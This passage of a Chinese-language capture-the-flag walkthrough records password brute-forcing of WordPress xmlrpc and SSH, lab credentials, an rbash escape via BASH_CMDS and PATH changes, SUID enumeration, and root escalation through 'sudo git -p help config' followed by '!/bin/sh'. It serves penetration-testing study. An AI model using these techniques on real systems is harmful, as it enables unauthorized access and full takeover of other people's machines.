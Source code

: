   

- 得到两个可登录的账户：

  ```
  [+] Performing password attack on Xmlrpc against 3 user/s
  [SUCCESS] - jerry / adipiscing                                                     [SUCCESS] - tom / parturient  
  ```

- 之前扫描端口的时候还发现了7744的ssh端口，那么也对该端口进行爆破

  ![image-20240309124028215](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240309124028215.png)

- 得到tom用户，直接使用ssh登录

```
login: tom   password: parturient
```

![image-20240309124538315](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240309124538315.png)

### 限制绕过

- 进去后发现被安全策略给限制使用命令了，尝试一下限制绕过

```
BASH_CMDS[a]=/bin/bash
导入环境变量：
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```

- 发现绕过成功，信息收集一下，看到flag3

![image-20240309125314987](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240309125314987.png)

- 之前还拿到个jerry的用户，直接切换过去，再信息收集一波，发现了flag4

  ![image-20240309125835865](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240309125835865.png)



### 提权

- 尝试一下suid提权，发现sudo命令具有suid权限，查看后发现git命令可以不需要密码就拥有root权限

  ```
  find / -perm -u=s 2>/dev/null
  ```

  

  ![image-20240309130135719](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240309130135719.png)

- 那么直接尝试使用git提权,首先使用`sudo git -p help config `进入到类似编辑器的界面，然后在该界面键入`！/bin/sh`就可以成功提取到root权限

```
sudo git -p help config
!/bin/sh
```

![image-20240309130710913](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240309130710913.png)

- 直接进入root目录成功找到最终flag

![image-20240309130911412](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240309130911412.png)
